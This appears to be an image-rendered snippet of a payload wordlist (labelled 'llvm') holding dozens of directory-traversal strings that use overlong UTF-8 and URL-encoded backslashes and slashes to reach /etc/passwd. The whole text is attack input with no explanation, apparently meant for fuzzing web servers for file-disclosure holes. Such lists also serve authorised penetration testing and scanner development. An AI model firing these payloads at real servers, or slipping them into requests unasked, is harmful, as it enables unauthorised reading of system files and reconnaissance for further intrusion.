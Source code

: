 ```llvm
..%c0%80%5c..%c0%80%5c../etc/passwd
..%c0%80%5c..%c0%80%5c..%c0%80%5cetc/passwd
..%c0%80%5c..%c0%80%5c..%c0%80%5cetc%c0%80%5cpasswd
..%c0%80%5c..%c0%80%5c..%c0%80%5c../etc/passwd
..%c0%80%5c..%c0%80%5c..%c0%80%5c..%c0%80%5cetc/passwd
..%c0%80%5c..%c0%80%5c..%c0%80%5c..%c0%80%5cetc%c0%80%5cpasswd
..%c0%80%5c..%c0%80%5c..%c0%80%5c..%c0%80%5c../etc/passwd
..%c0%80%5c..%c0%80%5c..%c0%80%5c..%c0%80%5c..%c0%80%5cetc/passwd
..%c0%80%5c..%c0%80%5c..%c0%80%5c..%c0%80%5c..%c0%80%5cetc%c0%80%5cpasswd
..%c0%5cetc/passwd
..%c0%5cetc%c0%5cpasswd
..%c0%5c../etc/passwd
..%c0%5c..%c0%5cetc/passwd
..%c0%5c..%c0%5cetc%c0%5cpasswd
..%c0%5c..%c0%5c../etc/passwd
..%c0%5c..%c0%5c..%c0%5cetc/passwd
..%c0%5c..%c0%5c..%c0%5cetc%c0%5cpasswd
..%c0%5c..%c0%5c..%c0%5c../etc/passwd
..%c0%5c..%c0%5c..%c0%5c..%c0%5cetc/passwd
..%c0%5c..%c0%5c..%c0%5c..%c0%5cetc%c0%5cpasswd
..%c0%5c..%c0%5c..%c0%5c..%c0%5c../etc/passwd
..%c0%5c..%c0%5c..%c0%5c..%c0%5c..%c0%5cetc/passwd
..%c0%5c..%c0%5c..%c0%5c..%c0%5c..%c0%5cetc%c0%5cpasswd
..%c0%2fetc/passwd
..%c0%2fetc%c0%2fpasswd
..%c0%2f../etc/passwd
..%c0%2f..%c0%2fetc/passwd
..%c0%2f..%c0%2fetc%c0%2fpasswd
..%c0%2f..%c0%2f../etc/passwd
..%c0%2f..%c0%2f..%c0%2fetc/passwd
..%c0%2f..%c0%2f..%c0%2fetc%c0%2fpasswd
..%c0%2f..%c0%2f..%c0%2f../etc/passwd
..%c0%2f..%c0%2f..%c0%2f..%c0%2fetc/passwd
..%c0%2f..%c0%2f..%c0%2f..%c0%2fetc%c0%2fpasswd
..%c0%2f..%c0%2f..%c0%2f..%c0%2f../etc/passwd
..%c0%2f..%c0%2f..%c0%2f..%c0%2f..%c0%2fetc/passwd
..%c0%2f..%c0%2f..%c0%2f..%c0%2f..%c0%2fetc%c0%2fpasswd
..%5cetc/passwd
..%5cetc%5cpasswd
..%5c../etc/passwd
..%5c..%5cetc/passwd
..%5c..%5cetc%5cpasswd
..%5c..%5c../etc/passwd
..%5c..%5c..%5cetc/passwd
..%5c..%5c..%5cetc%5cpasswd
..%5c..%5c..%5c../etc/passwd
..%5c..%5c..%5c..%5cetc/passwd
..%5c..%5c..%5c..%5cetc%5cpasswd
..%5c..%5c..%5c..%5c../etc/passwd
..%5c..%5c..%5c..%5c..%5cetc/passwd
..%5c..%5c..%5c..%5c..%5cetc%5cpasswd
..%2fetc/passwd
..%2fetc%2fpasswd
..%2f../etc/passwd
..%2f..%2fetc/passwd
..%2f..%2fetc%2fpasswd
..%2f..%2f../etc/passwd
..%2f..%2f..%2fetc/passwd
..%2f..%2f..%2fetc%2fpasswd
..%2f..%2f..%2f../etc/passwd
..%2f..%2f..%2f..%2fetc/passwd
..%2f..%2f..%2f..%2fetc%2fpasswd
..%2f..%2f..%2f..%2f../etc/passwd
```